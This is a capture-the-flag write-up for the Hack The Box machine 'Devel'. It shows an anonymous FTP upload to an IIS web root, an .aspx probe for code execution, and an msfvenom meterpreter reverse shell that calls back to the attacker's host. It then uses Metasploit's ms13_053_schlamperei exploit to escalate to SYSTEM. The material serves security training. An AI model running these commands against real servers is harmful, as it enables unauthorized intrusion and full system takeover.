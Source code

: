 # Target
[Devel](https://app.hackthebox.com/machines/Devel/information), while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.

# Scan
```
nmap -sS -sC $TARGET_IP
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-15 19:03 CET
Nmap scan report for 10.129.86.228
Host is up (0.026s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7

Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds
```

# Foothold
FTP allows for anonymous connection. By browsing FTP root directory we can see that this is also root directory for HTTP server. What is more we have write permission to this directory. Let's try to upload `.aspx` probe to see if we could execute arbitrary code (Remote Code Execute vulnerability) on IIS server.

```
curl -s -T - ftp://anonymous@$TARGET_IP/probe.aspx <<EOF && \
curl -s http://$TARGET_IP/probe.aspx | grep -q 1337 && echo "\nTarget is \e[31;43mvulnerable\e[0m to RCE" || echo "\nTarget is not vulnerable to RCE" && \
curl -s ftp://anonymous@$TARGET_IP/probe.aspx -Q "-DELE probe.aspx" > /dev/null
<%@ Page Language="C#"%>
<html>
<head>
</head>
<body>
<%Response.Write(1000+300+30+7); %>
</body>
</html>
EOF
```

Our probe shows that `Target is vulnerable to RCE`. We could use this vulnerability to upload `.aspx` reverse shell. Let's start Metasploit `multi/handler` with `windows/meterpreter/reverse_https` payload.
```
msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload windows/meterpreter/reverse_https; run"
```

```
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => windows/meterpreter/reverse_https
[*] Started HTTPS reverse handler on https://10.10.14.212:4444
```

It's waiting for connection, so now let's create reverse shell with `.aspx` format, upload it over anonymous FTP connection, execute with HTTP GET call (to establish connection to `multi/handler`) and delete with another FTP connection.
```
msfvenom -p windows/meterpreter/reverse_https \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f aspx |\
curl -s -T - ftp://anonymous@$TARGET_IP/shell.aspx && \
curl -s http://$TARGET_IP/shell.aspx && \
curl -s ftp://anonymous@$TARGET_IP/shell.aspx -Q "-DELE shell.aspx" > /dev/null
```

After couple of seconds we should get our reverse shell connection for IIS user:
```
[*] https://10.10.14.212:4444 handling request from 10.129.86.228; (UUID: kssv2nos) Staging x86 payload (178780 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.212:4444 -> 10.129.86.228:49247) at 2025-01-15 20:38:47 +0100

meterpreter > getuid 
Server username: IIS APPPOOL\Web
```

# Privileges escalation
To elevate privileges we could use Meterpreter `getsystem`, but in this case it does not give any results, so we could try with WinPEAS or, as we are using Meterpreter, use Multi Recon Local Exploit Suggester.
```
meterpreter > background
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

Suggester have found plenty of vulnerabilities to chose from, let's go with [CVE-2013-1300](https://nvd.nist.gov/vuln/detail/CVE-2013-1300) which could be exploited with `exploit/windows/local/ms13_053_schlamperei`.
```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms13_053_schlamperei
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set LHOST tun0
LHOST => 10.10.14.212
msf6 exploit(windows/local/ms13_053_schlamperei) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.14.212:5555 
[*] Launching notepad to host the exploit...
[+] Process 3096 launched.
[*] Reflectively injecting the exploit DLL into 3096...
[*] Injecting exploit into 3096...
[*] Found winlogon.exe with PID 432
[*] Sending stage (177734 bytes) to 10.129.86.228
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Meterpreter session 2 opened (10.10.14.212:5555 -> 10.129.86.228:49256) at 2025-01-15 21:25:25 +0100

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

At this point all that is left is to grab flags.
```
meterpreter > cat /Users/babis/Desktop/user.txt
********************************
meterpreter > cat /Users/Administrator/Desktop/root.txt
********************************
```
